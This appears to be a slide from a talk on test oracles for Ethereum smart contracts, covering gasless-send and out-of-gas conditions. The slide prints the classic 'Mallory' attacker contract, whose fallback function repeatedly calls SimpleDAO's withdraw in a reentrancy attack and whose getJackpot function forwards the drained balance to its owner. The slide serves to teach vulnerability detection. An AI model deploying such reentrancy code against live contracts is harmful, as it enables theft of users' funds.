

Test Oracle – Gasless Send
Signature – fall back function
send()
Out-of-Gas exception – 2300
contract Mallory {
  SimpleDAO public dao = SimpleDAO(0x354...);
  address owner;

  function Mallory() {
    owner = msg.sender;
  }

  function() {
    dao.withdraw(dao.queryCredit(this));
  }

  function getJackpot() {
    owner.send(this.balance);
  }
}
Input of call() == 0
Gas limit == 2300
EVM: ErrOutOfGas